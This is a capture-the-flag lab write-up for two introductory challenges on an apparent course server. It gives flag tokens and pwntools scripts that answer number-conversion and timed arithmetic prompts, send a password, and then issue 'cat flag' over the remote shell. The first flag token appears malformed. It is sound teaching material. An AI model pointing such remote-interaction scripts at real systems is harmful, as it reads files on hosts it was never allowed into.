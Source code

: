 # challenge-name: intro

## Flag
FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoiMS1pbnRybyIsImlwIjoiMTI0LjE4My4xOS4xNTMiLCJzZXNzaW9uIjoiYTA5ZTY0ZDYtNTljMC00Y2ViLThmNDktYzE5ZWU0NTc1MDUyIn4xNTMiLCJzZXNzaW9uIjoiYT0.1p7_Ue812O5eovGnbu85DcCY1-uJw4ZDM83AneIYFRA}

## General overview
 I didn't use "sendlineafter" at the beginning, I used "send" directly, I thought it didn't matter, the program would read it at the end. But it doesn't work, if I don't send it at a specific location, my pwn will send a lot of commands directly to the program, which will cause the program to report an error.



## Program used
```python
from pwn import *
from pwnlib.util.packing import p32, u32

p = remote('comp6447.wtf', 20478)

p.recvuntil(b'{')
number = int(p.recvuntil(b'}', drop=True), 16)

p.sendlineafter(b'form!\n', bytes(str(number), 'utf-8'))
p.sendlineafter(b'0x103!\n', bytes(hex(number - 0x103), 'utf-8'))

p.recvuntil(b'me ')
number = int(p.recvuntil(b' ', drop=True), 16)
p.sendlineafter(b'form!\n', p32(number))

p.recvuntil(b')\n')
address = p.recvline().strip()

p.sendlineafter(b'form!\n', str(u32(address)))
p.sendlineafter(b'form!\n', hex(u32(address)))

p.recvuntil(b'is ')
num1 = int(p.recvuntil(b' +', drop=True))
num2 = int(p.recvuntil(b'?', drop=True))
p.sendlineafter(b'\n', str(num1 + num2))

p.sendlineafter(b'?\n', 'password\n')
p.sendline('cat flag')
p.interactive()
p.close()
```

======================================================

# challenge-name: too-slow

## Flag
FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoiMS10b28tc2xvdyIsImlwIjoiMTI0LjE4My4xOS4xNTMiLCJzZXNzaW9uIjoiOTExMjVjODgtZThhMi00ZmQxLThhYmUtZjExOTFmYTg5YmRlIn0.7ZmXXd2UnVRYIccBe1i4rqHafofpR4q8WG0zdqFCTOw}

## General overview
The challenge is interesting in that you are only given a short amount of time to answer the math questions, which is obviously impossible for humans to do. Fortunately, we have a tool like pwn, which allows us to extract the numbers directly and then send them to you after a quick local calculation.

## Program used
```python
from pwn import *
from pwnlib.util.packing import p32, u32

def plus(p):
    p.recvuntil(b'!\n')
    number1 = p.recvuntil(b' ', drop=True)
    p.recvuntil(b' ')
    number2 = p.recvuntil(b' ', drop=True)
    p.sendlineafter(b'=', str(int(number1)+int(number2)))

p = remote('comp6447.wtf', 20677)

for i in range(10):
    plus(p)

p.sendline('cat flag')

p.interactive()
p.close()
```